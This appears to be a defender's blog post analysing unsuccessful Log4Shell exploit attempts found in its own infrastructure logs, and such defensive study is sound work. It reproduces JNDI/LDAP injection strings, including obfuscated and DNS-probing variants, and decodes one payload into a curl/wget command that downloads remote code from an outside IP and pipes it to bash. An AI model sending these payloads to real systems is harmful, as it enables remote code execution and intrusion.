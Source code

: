 The following alerts are **unsuccessful** exploit attempts our infrastructure.

Let’s take a closer look at some of these exploit attempts to see if we can learn anything..

```bash
[2021-12-10T14:05:52.612 Z] "GET / HTTP/1.1" 307 - 0 0 0 - "45.155.205.233" "${jndi:ldap://45.155.205.233:12344/Basic/Command/Base64/KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC81NC4yMTcuMTczLjgzOjQ0M3x8d2dldCAtcSAtTy0gNDUuMTU1LjIwNS4yMzM6NTg3NC81NC4yMTcuMTczLjgzOjQ0Myl8YmFzaA==}" "34b61b2d-28f6-4e89-9baf-7cd3b4e71698" "54.217.173.83:443" "-"
```
This request was hitting our public API gateway with a base64 encoded payload. Decoding this payload we can see what the actor was trying to accomplish:

base64
```
KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC81NC4yMTcuMTczLjgzOjQ0M3x8d2dldCAtcSAtTy0gNDUuMTU1LjIwNS4yMzM6NTg3NC81NC4yMTcuMTczLjgzOjQ0Myl8YmFzaA==
```

base64 decoded
```
(curl -s 45.155.205.233:5874/54.217.173.83:443||wget -q -O- 45.155.205.233:5874/54.217.173.83:443)|bash
```

If this attack was successful, we can see that the actor is attempting to download a malicious exploit first with `curl`, then attempt with `wget` and then execute with the downloaded payload with bash. If this attack was successful we would have received an alert from our Host-based Intrusion Detection System (HIDs) from [Falco](https://github.com/falcosecurity/falco). In addition, it shows the importance of ensuring our images are distroless, without bash and OS dependencies, and blocking egress network traffic if possible, as this would also prevent such an attack.

Looking at more attempts, we started to see probing attempts using a 3rd party service using [Interactsh](https://github.com/projectdiscovery/interactsh).

```bash
16/Dec/2021:06:11:07 +0000] "GET /?x=${jndi:ldap://${hostName}.c6s8ou15g22ssten8u8gcg7po6oyo6dj6.interactsh.com/a} HTTP/1.1" 302 0 "${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://${hostName}.c6s8ou15g22ssten8u8gcg7po6oyo6dj6.interactsh.com}" "${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.c6s8ou15g22ssten8u8gcg7po6oyo6dj6.interactsh.com}" 685 0.015 [products-developer-portal-8080] 100.98.133.224:8080 0 0.014 302 548d1132926fa0bc9904e12523d2f250 [${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://${hostName}.c6s8ou15g22ssten8u8gcg7po6oyo6dj6.interactsh.com}, 173.249.19.100]
```

We see a lot of requests calling DNS as a mechanism to detect if a system is vulnerable.

```bash
[2021-12-14T22:57:36.722Z] "GET / HTTP/1.1" 307 - 0 0 0 - "51.105.55.17" "/${jndi:ldap://45.83.193.150:1389/Exploit}" "7c9223d6-2c81-491d-8564-10742cc90a9c" "54.75.196.220" "-"
```

In our Tokyo region, we started to see a lot of requests from `x00.it` domain.

```bash
[14/Dec/2021:17:37:59 +0000] "GET /?id=%24%7Bjndi%3Aldap%3A%2F%2Fdivd-0c1679670abeeb68eeabd98981713eea_%24%7Bdate%3AYYYYMMddHHmmss%7D_https_id.log4jdns.x00.it%2F%7D&page=%24%7Bjndi%3Aldap%3A%2F%2Fdivd-0c1679670abeeb68eeabd98981713eea_%24%7Bdate%3AYYYYMMddHHmmss%7D_https_page.log4jdns.x00.it%2F%7D&search=%24%7Bjndi%3Aldap%3A%2F%2Fdivd-0c1679670abeeb68eeabd98981713eea_%24%7Bdate%3AYYYYMMddHHmmss%7D_https_search.log4jdns.x00.it%2F%7D HTTP/1.1" 401 39 "${jndi:ldap://divd-0c1679670abeeb68eeabd98981713eea_${date:YYYYMMddHHmmss}_https_Referer.log4jdns.x00.it/}" "${jndi:ldap://divd-0c1679670abeeb68eeabd98981713eea_${date:YYYYMMddHHmmss}_https_User-Agent.log4jdns.x00.it/}" 4496 0.255 [monitoring-mki-lab-grafana-80] 100.115.164.63:3000 39 0.001 401 d7fa702ee8cc73793707ca6720c57639 [194.5.73.6]
```
